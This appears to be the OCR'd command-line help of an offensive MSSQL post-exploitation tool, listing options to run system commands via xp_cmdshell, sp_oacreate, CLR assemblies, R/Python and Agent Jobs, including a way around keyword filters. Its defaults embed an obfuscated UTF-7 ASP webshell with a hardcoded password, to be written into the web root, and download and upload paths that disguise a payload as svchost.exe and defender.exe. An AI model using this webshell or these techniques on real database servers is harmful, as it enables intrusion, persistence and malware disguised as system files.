 ```
   --cmdsp value                           Exec System Command | sp_oacreate有回显执行 | {72C24DD5-D70A-438B-8A42-98424B88AFB8} (default: "whoami")
   --cmd3 value, --c3 value                Exec System Command | clr执行 | clr命令参考: https://github.com/uknowsec/SharpSQLTools/ (default: "clr_exec whoami")
   --cmdpy value                           Exec System Command | clr执行 | clr命令参考: https://github.com/Ridter/PySQLTools (default: "clr_exec whoami")
   --cmd4 value, --c4 value                Exec System Command | 自写clr执行 (default: "-c4 net -c5 user")
   --cmd5 value, --c5 value                Exec System Command | 自写clr执行 (default: "-c4 net -c5 user")
   --cmd6 value, --c6 value                Exec System Command | xp_cmdshell命令执行|过滤了xp_cmdshell等关键字提交方法语句 (default: "-c6 whoami")
   --cmd7 value, --c7 value                Exec System Command | 自写clr执行 (default: "-c7 whoami")
   --cmd8 value, --c8 value                Exec System Command | r language command (default: "-c8 whoami")
   --cmd9 value, --c9 value                Exec System Command | python language command (default: "-c9 whoami")
   --cmd10 value, --c10 value              Exec System Command | createAndStartJob command (default: "-c10 whoami >c:\\windows\\temp\\123.txt")
   --cmd11 value, --c11 value              Exec System Command | 自写clr执行 | --option -x --cmd11 cmd | --option -X --cmd11 powershell (default: "--option -x --cmd11 cmd")
   --dir value, --dirtree value            xp_dirtree列目录 | dir c:
   --path value                            网站路径 -path + -code | c:\inetpub\wwwroot\cmd.asp (default: "c:\\inetpub\\wwwroot\\cmd.asp")
   --local value                           本地路径 localFile (default: "c:\\1.txt")
   --remote value                          远程路径 remoteFile (default: "C:\\Windows\\Temp\\1.txt")
   --code value                            -path + -code | 如果代码有"就加\来匹配<%eval request("cmd")%>网站路径和asp密码默认:LandGrey (default: "<%@codepage=65000%><%@codepage=65000%><%+AHIAZQBzAHAAbwBuAHMAZQAuAGMAbwBkAGUAcABhAGcAZQA9ADYANQAwADAAMQA6AGUAdgBhAGwAKAByAGUAcQB1AGUAcwB0ACgAIgBMAGEAbgBkAEcAcgBlAHkAIgApACk-%>")
   --downurl value                         下载文件的url地址 | http://www.microsoft.com/defender.exe
   --filepath value                        下载文件的路径 | c:\programdata\svchost.exe
   --debug                                 Debug info
   --enable, -e                            Enabled xp_cmdshell
   --disable, --diclose                    Disable xp_cmdshell
   --ole, --oleopen                        Enabled sp_oacreate
   --dole, --dolose                        Disable sp_oacreate
   --clr, --clropen                        Enabled clr enabled
   --dclr, --dclose                        Disable clr enabled
   --rlce, --rlceopen                      r|python languag eenabled
   --jobopen                               MSSQL Agent Job服务开启
   --install_clr, --in_clr                 install clr  | --cmd3 "clr_exec whoami" | clr命令参考: https://github.com/uknowsec/SharpSQLTools/
   --uninstall_clr, --un_clr               uninstall clr | --cmd3 "clr_exec whoami"
   --installpy_clr, --inpy_clr             installpy clr  | --cmdpy "clr_exec whoami" | clr命令参考: https://github.com/Ridter/PySQLTools
   --uninstallpy_clr, --unpy_clr           uninstallpy clr | --cmdpy "clr_exec whoami"
   --install_clrcmd, --in_clrcmd           install clrcmd | "--c4 net --c5 user"
   --uninstall_clrcmd, --un_clrcmd         uninstall clrcmd | "--c4 net --c5 user"
   --install_clrcmd1, --in_clrcmd1         install clrcmd1 | --cmd7 "whoami"
   --uninstall_clrcmd1, --un_clrcmd1       uninstall clrcmd | --cmd7 "whoami"
   --install_clrcmd2, --in_clrcmd2         install clrcmd2 | --cmd11 "whoami"
   --uninstall_clrcmd2, --un_clrcmd2       uninstall clrcmd2 | --cmd11 "whoami"
   --upload                                --upload --local c:\svchost.exe --remote C:\Windows\Temp\svchost.exe
   --help, -h                              show help
```  
  